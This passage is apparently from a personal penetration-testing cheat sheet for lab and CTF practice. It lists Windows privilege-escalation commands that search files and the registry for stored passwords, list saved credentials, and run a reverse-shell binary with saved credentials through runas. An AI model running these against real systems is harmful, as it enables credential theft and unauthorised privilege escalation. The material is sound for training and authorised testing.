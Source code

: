   ```linpeas.sh``` is a good starting point - go through everything listed in its output. But in case you are not getting anything, manual checks will help:
  # we can look into sshuttle and scanning other internal hosts using a ping sweep - check THM Holo room
  ```

## Windows Privilege Escalation

  ```cmd
  # refer Windows Privilege Escalation section in HTB academy

  whoami
  # user

  whoami /priv
  # current user privileges

  whoami /groups

  net users
  # list users

  net user Administrator
  # list user details

  qwinsta
  # other users logged in

  net localgroup
  # users groups

  net localgroup Administrators
  # list group members

  systeminfo
  # verbose output

  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  # shows only required info

  hostname

  gci -force
  # show hidden directories in PS

  findstr /si password *.txt
  # recursively search all directories for 'password' string in text files

  # for extended password hunting, check the PasswordAttacks module from HTB
  # it includes a section on finding creds

  cmdkey /list
  # lists saved credentials

  runas /savecred /user:admin reverse_shell.exe
  # try credentials

  # registry keys can also contain passwords
  reg query HKLM /f password /t REG_SZ /s

  reg query HKLM /f password /t REG_SZ /s

  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
  # check for password reuse as well

  ```